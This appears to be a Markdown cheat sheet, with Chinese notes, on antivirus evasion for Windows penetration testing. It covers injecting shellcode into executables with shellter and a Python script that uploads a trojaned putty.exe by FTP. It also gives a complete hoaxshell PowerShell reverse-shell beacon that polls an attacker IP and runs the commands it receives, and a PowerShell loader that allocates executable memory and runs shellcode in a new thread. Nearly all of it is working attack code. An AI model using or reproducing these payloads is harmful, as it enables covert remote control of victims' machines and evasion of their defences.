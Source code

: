 # AV Evasion

## shellter

shellter是一个动态的反向TCP/UDP连接的shellcode注入工具，它可以将shellcode注入到Windows可执行文件中，使其免杀。

但是要windows环境，还要x86/x64架构芯片。所以Mac的Arm架构芯片是不行的。

### ftp.py

```python
from ftplib import FTP

ftp_server = "192.168.247.53"
username = "anonymous"
password = ""
file_path = "./putty.exe"
destination = "putty32.exe"

ftp = FTP(ftp_server)
ftp.login(user=username, passwd=password)

ftp.set_pasv(False)
ftp.sendcmd("TYPE I")

with open(file_path, "rb") as file:
    ftp.storbinary(f'STOR {destination}', file)

ftp.quit()
```

## hoaxshell

<https://github.com/t3l3machus/hoaxshell>

A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.

```bash
python3 ./hoaxshell.py -s 192.168.45.185 -r -H "Authorization"
```

```powershell
$s='172.16.8.130:8080';$i='bf987f35-a12cc336-7e35106c';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/bf987f35 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a12cc336 -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=i'e'x $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7e35106c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

## powershell

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);   
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
//导入 kernel32.dll 中的 VirtualAlloc、CreateThread  
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
// 导入 msvcrt.dll 中的 memset
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;                         // 变量 $sc 保存 shellcode
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);                  //使用VirtualAlloc分配一块内存
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};    //使用 memset 函数将 shellcode 写入新分配的内存中
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };           //使用 CreateThread 创建新的进程，执行内存中的 shellcode
```
